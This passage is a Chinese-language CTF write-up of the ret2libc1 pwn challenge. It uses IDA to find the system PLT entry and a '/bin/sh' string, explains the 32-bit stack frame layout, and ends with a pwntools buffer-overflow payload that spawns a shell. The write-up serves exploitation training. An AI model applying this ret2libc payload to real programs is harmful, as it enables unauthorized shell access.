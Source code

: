 找到了secure函数，调用了system，但是执行的命令并没有什么用，但是这个system的调用却在plt中引用了libc中的system

在IDA中看到了链接了libc的system函数

![image-20240229200547170](images/43.png)

所以当我们跳转到08048460这个地址的时候就相当于调用了libc中的system函数

shift+f12看到了`/bin/sh`字符串，那就可以直接溢出到system的位置，调用`/bin/sh`，也可以用命令

```
strings ret2libc1 | grep /bin/sh
```

那要将`/bin/sh`作为参数传输到system函数里面应该怎么办，正常调用system函数需要一个返回值，所以要先在参数前面填充一个字长的数据，再跟上参数（记住system函数的参数在其上方两个字长处）

可以用函数的栈帧来理解这个问题，虚线就是栈上父函数和子函数的分界线，每个函数的第一个操作都是`push ebp`，来保存父函数的ebp，往上一个字长就是返回地址，再往上就是压入的参数，也就是我们要对函数进行赋值，就需要在第二个字长处填入参数

这样在system函数工作的时候，它就会向上寻找到对应的参数，而对于调用函数的参数，都是从右往左压栈，所以对于函数第一个参数就是在ret addr上面一个字长

![image-20240301151925286](images/44.png)

payload如下

```
from pwn import *
p=process('./ret2libc1')
context(os='linux', arch = 'amd64', log_level = 'debug')

bin_sh_addr = 0x08048720
sys_addr = 0x08048460
payload = cyclic(112) + p32(sys_addr) + p32(0x1) + p32(bin_sh_addr)
p.sendline(payload)
p.interactive()
```
